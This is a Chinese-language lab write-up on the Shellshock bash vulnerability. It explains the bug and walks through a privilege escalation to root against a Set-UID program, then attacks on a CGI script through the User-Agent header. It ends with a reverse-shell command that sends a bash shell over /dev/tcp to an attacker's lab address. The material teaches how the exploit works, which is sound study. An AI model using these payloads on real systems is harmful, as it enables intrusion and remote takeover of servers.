 # 第三章 Shellshock 攻击


shellshock漏洞：CVE-2014-6271
利用了bash将环境变量转换为函数定义时犯的一个错误

## Shellshock漏洞

bash version 4.1.0 -> bash_shellshock

`$wget http://labfile.oss.aliyuncs.com/bash-4.1.tar.gz`


```sh
yuan@ubuntu:~/Cap3-shellshock$ foo='() { echo "hello"; }; echo "extra";'
yuan@ubuntu:~/Cap3-shellshock$ echo $foo
() { echo "hello"; }; echo "extra";
yuan@ubuntu:~/Cap3-shellshock$ export foo
yuan@ubuntu:~/Cap3-shellshock$ bash_shellshock 
extra
yuan@ubuntu:~/Cap3-shellshock$ echo $foo

yuan@ubuntu:~/Cap3-shellshock$ declare -f foo
foo () 
{ 
    echo "hello"
}
```


bash源代码中的错误 variables.c 


`void initialize_shell_variables(env, privmode)`


bash检查环境变量是否以`() {`开头，一旦发现这样的字符串，Bash将用'='替换空格使该环境变量变成一个函数定义，
然后，bash调用`parse_and_execute()`函数解析该函数定义。然而，`parse_and_execute()`的功能太强大，
他不仅仅解析函数定义，还解析和运行其他shell指令。如果该字符串包含用分号隔开的多个指令，
`parse_and_execute()`会解析和运行每一条



## 利用shellshock攻击Set-UID程序

*有漏洞的程序*:vul.c

```C
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char const *argv[])
{
	setuid(geteuid());
	system("/bin/ls -l");
	return 0;
}
```

> vul.c通过 `setuid(getuid())` 把真实用户ID变为和有效用户ID，若非如此，Bash不会处理从环境变量处获得的函数定义

`$ sudo ln -sf /bin/bash_shellshock /bin/sh`


```sh
yuan@ubuntu:~/Cap3-shellshock$ gcc -o vul.out vul.c 
yuan@ubuntu:~/Cap3-shellshock$ sudo chown root vul.out 
yuan@ubuntu:~/Cap3-shellshock$ sudo chmod 4755 vul.out 
yuan@ubuntu:~/Cap3-shellshock$ export foo='() { echo hello; }; /bin/sh'
yuan@ubuntu:~/Cap3-shellshock$ ./vul.out 
sh-4.1# id
uid=0(root) gid=1000(yuan) 组=1000(yuan),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```


## 利用shellshock攻击CGI程序


### 1 环境准备

启动apache2服务， 将test.cgi放到/usr/lib/cgi-bin/文件夹内.
将test.cgi改成755可执行权限。

test.cgi
```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo
echo "Hello"
```

用kali linux访问
```sh
kali@kali:~Desktop$ curl http://192.168.43.240/cgi-bin/test.cgi

Hello
kali@kali:~Desktop$
```



### web服务器调用CGI程序

`curl -v`会打印出HTTP请求和服务器响应

通过远程访问test2.cgi可以知道，Apache服务器从HTTP请求头中获得User-Agent信息，并将他赋值给一个*HTTP_USER_AGENT*的环境变量
当Apache服务创建一个子进程来执行CGI程序时，会传递该变量以及一些其他的环境变量给CGI程序

```sh
yuan@ubuntu:~$ curl -v http://192.168.43.240/cgi-bin/test.cgi
*   Trying 192.168.43.240...
* TCP_NODELAY set
* Connected to 192.168.43.240 (192.168.43.240) port 80 (#0)
> GET /cgi-bin/test.cgi HTTP/1.1
> Host: 192.168.43.240
> User-Agent: curl/7.58.0	      	    <****注意这里
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sat, 19 Dec 2020 07:29:39 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/plain
< 
** Enviroment Variables **
HTTP_HOST=192.168.43.240
HTTP_USER_AGENT=curl/7.58.0            <****注意这里
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

...

```


利用*User-Agent*实现攻击


```sh
kali@kali:$ curl -A "() { ;}; echo Content-Type: text/plain; /bin/ls -l" http://192.168.43.240/cgi-bin/test.cgi 
```

> /bin/ls -l 可换成任意希望执行的指令


### 创建反向shell


```sh
Attacker:$ nc -l -p 9090 -v 
Attacker:$ curl -A "() { ;}; echo Content-Type: text/plain; echo;
echo; /bin/bash -i > /dev/tcp/192.168.43.230/9090 0<&1 2>&1" http://192.168.43.240/cgi-bin/test.cgi

```



创建反向shell指令：

```sh
Server:$ /bin/bash -i > /dev/tcp/192.168.43.230/9090 0<&1 2>&1
```

	-i shell的可交互模式
	>/dev/tcp/_ip_/_port_ shell输出重定向至TCP连接，stdout的文件描述符是1
	0<&1 0:stdin 将标准输出设备也用作输入 TCP是一个双向连接
	2>&1 2:stderr